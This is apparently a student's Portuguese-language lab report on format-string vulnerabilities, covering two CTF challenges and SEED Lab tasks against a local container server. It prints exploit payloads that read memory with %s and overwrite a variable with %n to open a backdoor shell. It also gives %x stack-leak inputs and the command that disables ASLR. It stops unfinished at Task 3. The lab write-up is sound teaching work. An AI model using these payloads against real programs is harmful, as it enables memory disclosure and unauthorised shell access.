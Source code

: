 # CTF 6 #

**Desafio 1** 
Neste desafio tinhamos de aceder ao endereço de memória, onde se encontrava a variável flag, e depois imprimir o seu conteúdo para o stdout. Primeiro, para saber qual era o endereço da variável flag era necessário usar o gdb, como era indicado no exploit, fazendo gdb attach pid, onde pid representa o pid do processo que executava o programa a explorar. Depois usando o comando do gdb: p &flag, é possível saber qual é o endereço da variável (0x804c060), que sendo estático, dá para utilizar em qualquer execução do programa.
Agora,acedendo ao endereço e utilizando o exploit com a linha `p.sendline(b"\x60\xc0\x04\x08" + b"%s")` é possível retirar o conteúdo desse endereço de memória e, assim, obtemos a flag que é necessário submeter.

**Desafio 2**
Neste desafio, não há nenhuma variável que tenha a flag pretendida em memória. No entanto, podemos obter essa flag, se conseguirmos alterar o conteúdo da variável key, que inicialmente tem o valor 0. Alterando o valor de key para 0xbeef, vai ser satisfeita a condição `if(key == 0xbeef)` que por sua vez vai permitir ter acesso ao código que abre um terminal, onde é possível aceder ao ficheiro flag.txt, para obter a flag. Para alterar o valor de key, usamos um ataque explorando uma format string vulnerability, tal como no desafio anterior, mas desta vez vamos escrever na memória. No ficheiro de exploit, vamos introduzir a linha  `p.sendline(b"AAAA" + b"\x34\xc0\x04\x08" + b"%48871d%n")`, no qual :
- `b"\x34\xc0\x04\x08"` corresponde ao endereço de key na memória, que é 0x0804c034.
- b"AAAA" são 4 caracteres aleatórios, que são introduzidos no inicio para permitir executar o ataque
- b"%48871d%n" corresponde ao número restante de bytes que queremos escrever em key, que são 48879 (o número decimal equivalente ao numero hexadecimal 0xbeef), ao qual retiramos 8 bytes (4 bytes dos 4 caracteres aleatórios e 4 bytes do endereço de memória) obtendo, então o total de 48871

Ao correr o exploit, o programa vai imprimir para o stdout "Backdoor activated", o que indica que o nosso ataque teve sucesso, e neste momento, temos um terminal, no qual podemos escrever `cat flag.txt` e assim obter a flag para submeter.

![screenshot](Week%206/backdoor.png)



# Tarefas da semana 6#

# Format Strings #
A função `printf()` em C é usada para imprimir uma string de acordo com um formato. O primeiro argumento da função chama-se _format string_ e define a forma como a string deve ser formatada. Existem programas que permitem ao utilizador fornecer todo ou grande parte do conteúdo da  _format string_. Tais conteúdos, quando fornecidos por utilizadores maliciosos, pode gerar uma vulnerabilidade no programa, uma **_format string vulnerability._**

# Setup #
Nesta parte, é necessário desligar as medidas de proteção impostas pelos sistemas operativos. Uma delas é a randomização do endereço de começo da _heap_ e da _stack_.

Tal proteção pode ser desligada com o seguinte comando: 
```shell
sudo sysctl -w kernel.randomize_va_space=0
```

É também necessário compilar o programa vulnerável (format.c). Para tal, usa-se o comando `make` já que os comandos de compilação são fornecidos em `Makefile`.

# Task 1: Crashing the Program #
Dois contentores são criados, cada um correndo um servidor vulnerável. Nesta tarefa, vamos utilizar o servidor 10.9.0.5, que corre um programa 32-bit com uma vulnerabilidade do tipo format-string. Abrimos dois terminais, sendo um o cliente e o outro o servidor. No cliente, enviamos uma mensagem de teste ao servidor `echo hello | nc 10.9.0.5 9090`. O servidor recebe a mensagem e retorna:

```shell
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffa7b950
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 6 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffa7b878
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | hello
server-10.9.0.5 | The target variable's value (after):  0x11223344
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

Isto significa que tudo correu como o esperado.
O nosso objetivo é fornecer input ao servidor, de tal forma que, quando o servidor tentar imprimir esse mesmo input, usando a função myprintf(), vai crashar. Podemos perceber se myprintf() não está a retornar corretamente, se não retornar a mensagem `server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)`.
Para cumprir o nosso objetivo, usamos o programa build_string.py, que é fornecido. Compilando este programa, é criado um ficheiro executável badfile. O ficheiro badfile contém uma string com tamanho superior a 1500 bytes.
Agora que já temos uma string suficientemente grande, podemos dar início ao ataque. Para isso introduzimos no terminal do cliente `cat badfile | nc 10.9.0.5 9090`. Ao receber este input, o servidor retorna:

```shell
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffe643a0
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffe642c8
server-10.9.0.5 | The target variable's value (before): 0x11223344
```

A função myprintf() não retornou a mensagem `server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)`. Isto significa que, o ataque teve sucesso e o programa format crashou.

# Task 2: Printing Out the Server Program’s Memory #
**Task 2.A: Stack Data**:
O objetivo desta tarefa é fazer com que o servidor imprima alguns dados da sua memória, para tal, segue-se os seguintes passos:
- Usar como input: `%x%x%x%x%x%x%x%x`;
- `printf()` imprime o valor inteiro apontado pelo apontador de `va_list` e advança 4 bytes;
- O número de `%x` é decido pela distância entre o ponto initial de `va_list` e a variável e pode ser obtido por tentativa-erro. No nosso caso, esse número foi: 5

_Client_
```shell
[12/03/21]seed@VM:~/Week 6$ nc 10.9.0.5 9090
%x%x%x%x%x
^C
```
_Server_
```shell
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 11 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffe9b308
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | 1122334410008049db580e532080e61c0
server-10.9.0.5 | The target variable's value (after):  0x11223344
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

**Task 2.B: Heap Data**:
Nesta tarefa, o objetivo é imprimir uma mensagem secreta que está guardada na heap.
Para tal é necessário saber qual é o endereço desta mensagem, o que é possível através do código impresso pelo servidor.
```shell
server-10.9.0.5 | The input buffer's address:    0xffe9b3e0
server-10.9.0.5 | The secret message's address:  0x080b4008       <-- O endereço da mensagem
server-10.9.0.5 | The target variable's address: 0x080e5068
```

Colocando este endereço, na forma binária, na string de formatação, imprime-se a mensagem secreta, que é a seguinte:
```/bin/bash*-c*/bin/ls -l; echo '===== Success! ======'```

# Task 3: Modifying the Server Program’s Memory #
O objetivo desta tarefa é modificar o valor da variável `target`.

**Task 3.A: Change the value to a different value**
Nesta tarefa é pretendido alterar o valor da variável para qualquer outro valor. É necessário saber qual é o endereço desta variável, o que é possível através do código impresso pelo servidor.

```shell
server-10.9.0.5 | The input buffer's address:    0xffe9b3e0
server-10.9.0.5 | The secret message's address:  0x080b4008       
server-10.9.0.5 | The target variable's address: 0x080e5068     <-- O endereço da variável

server-10.9.0.5 | The target variable's value (before): 0x11223344 <-- O valor da variável antes da mudança
server-10.9.0.5 | The target variable's value (after):  0x11223344 <-- O valor da variável depois da mudança
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```
Ora, sabendo que o endereço da variável é 0x080e5068, necessitamos de


**Task 3.B: Change the value to 0x5000**
